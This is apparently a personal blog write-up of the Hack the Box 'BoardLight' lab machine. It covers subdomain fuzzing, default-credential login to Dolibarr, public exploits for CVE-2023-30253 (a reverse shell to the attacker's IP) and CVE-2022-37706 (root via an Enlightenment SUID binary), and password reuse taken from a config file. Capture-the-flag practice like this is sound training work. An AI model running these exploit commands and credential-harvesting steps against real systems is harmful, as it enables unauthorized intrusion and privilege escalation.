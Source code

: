```yaml
---
draft: false
title: "Hack the Box #4 - BoardLight w/o Metasploit"
date: 2024-08-08
author: William
category:
  - Tech
tags:
  - Hacking
cover:
  image: BoardLight.png
  alt: BoardLight.png
---
```

This evening I felt like cutting my teeth a little bit more. So lets spin up this box and give it a poke.
Kicking of this baby with an nmap
![https://i.imgur.com/EOD1dhH.png](https://i.imgur.com/EOD1dhH.png#center)

In doing so we find port 22 and 80 are the only ones open. _I did a full port scan after to the avail of no extra dice_

Browsing the website we don't find much. All links are get requests to the server so nothing there. We do get the website URL however _**Board.htb**_ that we can add to our hosts file.

So lets see what they aren't showing us with a little bit of directory brute forcing with gobuster…

![https://i.imgur.com/TyAgDp1.png](https://i.imgur.com/TyAgDp1.png#center)

Nothing of to much interest. How about subdomains? FUFF!!!! Weirdly when I started out, FUFF would give me all or nothing.

```bash
# All the errors
ffuf -w /usr/.....top100000.txt -u <http://FUZZ.permx.htb> -mc 200 -o ffuf.scan

# Or All the 200s 
ffuf -w /usr/.....top100000.txt -u http://IP_ADDRESS -H "Host: FUZZ.DOMAIN_URL" -mc 200 -o ffuf.scan
```

This had me stumped for longer then I would care to admit… until I discovered a glorious FUFF feature that I’m kicking myself for not knowing `-ac` Auto calibration. Oh where have you been all my life! Once we apply that flag a subdomain pops out in a matter of seconds `crm.board.htb`

![https://i.imgur.com/qE876A5.png](https://i.imgur.com/qE876A5.png#center)

Now we are cooking, with a sus login portal. Looking into the known exploits for this software, we find this git repo [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) but this requires authentication… Default creds for this tool are **admin/admin** but that wont work right… right?!

### Shell

Well the creds work, though the permissions seem to be removed, but no matter.
```bash
└─$ python3 exploit.py <http://crm.board.htb> admin admin 10.10.14.62 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

And with that we have a cheeky reverse shell. Looking at the home file we find the user ***larissa***. But lets keep digging in what this dolibarr is… after some googling we find this little nugget of info about the [Configuration file](https://wiki.dolibarr.org/index.php?title=Configuration_file) and can be found at **conf/conf.php**. Whacking this badboy with a grep for db
```bash
<crm.board.htb/htdocs/conf$ cat conf.php | grep "db"  
...
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
...
```
We got a password… Would this work against the user?

```bash
└─$ ssh larissa@10.10.11.11    
larissa@boardlight:~$ cat user.txt
============ USER_FLAG ============
```

oh baby!

### Box Enumeration 

Now to start the enumeration of the box. Lets push **linpeas** onto this badboy and run that. In do so Linpeas finds some interesting files with permissions

```bash
...
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                   
                      ╚════════════════════════════════════╝                                                                                         
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid>                                                                     
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                            
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)                                
...
```

and one cursory google search away and we find this cheeky [PrivEsc](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh), pushing it onto the box

```bash
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can\'t find in /etc/fstab.
# whoami
root
# cat /root/root.txt
============ ROOT_FLAG ============
```

With that we are done with both flags in the bag. Its time to treat myself with going outside and touching grass... Just one blade
![Grass.png](https://i.giphy.com/media/v1.Y2lkPTc5MGI3NjExdHZiaHY2ZjcwbXEycXp1dnp5cXV5aG5peWtnMWRtODhkaTd0dWQ0NyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/jVk5ebwWGahBS/giphy.gif#center)

Oh and the [rubber stamp](https://www.hackthebox.com/achievement/machine/1695260/603) from hack the box